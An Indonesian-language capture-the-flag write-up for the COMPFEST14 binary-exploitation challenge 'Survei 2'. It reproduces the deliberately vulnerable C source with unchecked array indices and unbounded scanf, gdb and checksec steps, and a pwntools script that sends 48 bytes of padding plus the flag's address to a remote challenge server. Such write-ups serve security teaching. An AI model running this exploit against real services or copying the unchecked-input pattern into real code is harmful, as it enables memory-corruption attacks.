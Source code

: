 # Survei 2

> Write-up author: jon-brandy

## DESKRIPSI:

[survei](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei)
[survei.c](Vhttps://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei.c)

## LANGKAH-LANGKAH:
1. Pertama unzip file `.zip` yang diberikan.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188115991-f41b2102-387b-4dc2-8b61-d96f4c96a2b0.png)

2. Jalankan `chmod +x survei` agar program dapat dieksekusi.
3. Setelah itu cek terlebih dahulu proteksi yang diberikan pada program dengan menjalankan `checksec --file survei`.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188116853-8e5e5d5a-7724-49d7-a77f-aef5d4b51e69.png)

4. Dikarenakan **no pie** menandakan memory yang tersimpan akan selalu berada di tempat yang sama.
5. Selanjutnya cek source-code yang diberikan.

> SURVEI.C

```c
#include<stdio.h>
#include<stdlib.h>

struct data {
    char *str;
};
char flag[40];
struct data *survei[8];

void printMenu() {
    printf("1. Isi survei\n2. Lihat survei\n3. Keluar\n> ");
}

void isiSurvei() {
    int p;
    printf("Di manakah survei ingin disimpan?: ");
    scanf("%d", &p);
    printf("Isi survei: ");
    scanf("%s", survei[p]->str);
    printf("Survei berhasil disimpan di: %d\n", p);
}

void lihatSurvei() {
    int p;
    printf("Survei manakah yang ingin dilihat: ");
    scanf("%d", &p);
    printf("%s\n", survei[p]->str);
}

int main(int argc, char const *argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    FILE *fp = fopen("flag.txt", "r");
    fgets(flag, 40, fp);
    
    int i;
    for (i = 0; i < 8; i++) {
        survei[i] = malloc(sizeof(struct data));
        survei[i]->str = malloc(32);
    }
    
    while (1) {
        printMenu();
        int choice;
        scanf("%d", &choice);
        if (choice == 1) {
            isiSurvei();
        } else if (choice == 2) {
            lihatSurvei();
        } else {
            printf("Bye.\n");
            return 0;
        }
    }
}

```

6. Setelah melakukan analisis source-code, nampaknya kita hanya perlu mencari address dari flag dan melakukan padding sebanyak 48.

> NOTES

```
48 -> size buffer dari flag + size buffer dari pointer survei
```

7. Saya menggunakan `gdb` untuk mencari address dari flag

> GDB

![image](https://user-images.githubusercontent.com/70703371/188117558-f41cd6bc-1bf5-4d3b-9ff7-0ae4e2a0df3a.png)

> ADDRESS FLAG

```
0x6010e0
```

8. Langkah selanjutnya kita harus mengontrol `return address`, untuk itu saya menggunakan **pwntools** di script python sebagai berikut:

```py
import os
from pwn import *

os.system('clear')

sh = remote('103.185.38.238', 17835)

p = b'A' * 48
p += p64(6295776) # decimal value dari address flag

sh.sendline(b'1')
sh.sendline(b'0')

sh.sendline(p)

sh.sendline(b'2')
sh.sendline(b'1')

sh.interactive()
```

> OUTPUT

